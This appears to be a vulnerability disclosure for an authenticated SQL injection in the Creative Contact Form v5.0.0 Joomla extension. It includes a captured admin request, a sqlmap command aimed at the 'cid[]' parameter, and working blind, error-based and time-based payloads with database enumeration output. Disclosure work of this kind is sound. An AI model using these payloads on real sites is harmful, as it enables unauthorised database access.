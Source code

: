 # SQL injection in Creative Contact Form v5.0.0 for Joomla!

**CVE Link:** Pending

**Creative Contact Form:** https://extensions.joomla.org/extension/creative-contact-form/

## Introduction
An authenticated (administrator) SQL injection vulnerability exists in the Creative Contact Form for Joomla! v5.0.0 via the 'cid[]' parameter in the submissions page.

### POC
To exploit this vulnerability go to 'Creative Contact Form >> Overview >> Submissions >> Submissions Demo >> select row >> Make Read' and save the request (req.txt) with Burp Suite.

![Alt text](creative_contact_form_submissions.png)

**HTTP Request:**
```
POST /administrator/index.php?option=com_creativecontactform HTTP/1.1
Host: localhost:8080
Content-Length: 255
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_creativecontactform
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; 7c69953700a73546l78d49541f4da3736=fa2b3fff8fed173baa7ee897c9bcd720; 6f0cb49ed1e11e96f297ddd4969c5c1b=4a2e75b3a9ae755b0b16ee6c26b22ee4
Connection: keep-alive

filter_form_id=&filter_status_id=&filter_search=test&limit=20&directionTable=desc&sortTable=sp.id&cid%5B%5D=5&limitstart=0&view=submissions&task=submissions.make_read&boxchecked=1&filter_order=sp.id&filter_order_Dir=desc&ad5beb623bba9f3a9ad95b8b091b8804=1
```

**Exploit:**
```
python3 sqlmap.py -r ~/req.txt --dbs --dbms=mysql --batch -p 'cid[]'

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: cid[] (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: filter_form_id=&filter_status_id=&filter_search=test&limit=20&directionTable=desc&sortTable=sp.id&cid[]=5' AND EXTRACTVALUE(8905,CASE WHEN (8905=8905) THEN 8905 ELSE 0x3A END)-- KBkO&limitstart=0&view=submissions&task=submissions.make_read&boxchecked=1&filter_order=sp.id&filter_order_Dir=desc&ad5beb623bba9f3a9ad95b8b091b8804=1

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: filter_form_id=&filter_status_id=&filter_search=test&limit=20&directionTable=desc&sortTable=sp.id&cid[]=5' AND GTID_SUBSET(CONCAT(0x71717a7171,(SELECT (ELT(1719=1719,1))),0x71627a6a71),1719)-- MuRy&limitstart=0&view=submissions&task=submissions.make_read&boxchecked=1&filter_order=sp.id&filter_order_Dir=desc&ad5beb623bba9f3a9ad95b8b091b8804=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter_form_id=&filter_status_id=&filter_search=test&limit=20&directionTable=desc&sortTable=sp.id&cid[]=5' AND (SELECT 4763 FROM (SELECT(SLEEP(5)))ZwEh)-- oQKD&limitstart=0&view=submissions&task=submissions.make_read&boxchecked=1&filter_order=sp.id&filter_order_Dir=desc&ad5beb623bba9f3a9ad95b8b091b8804=1
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
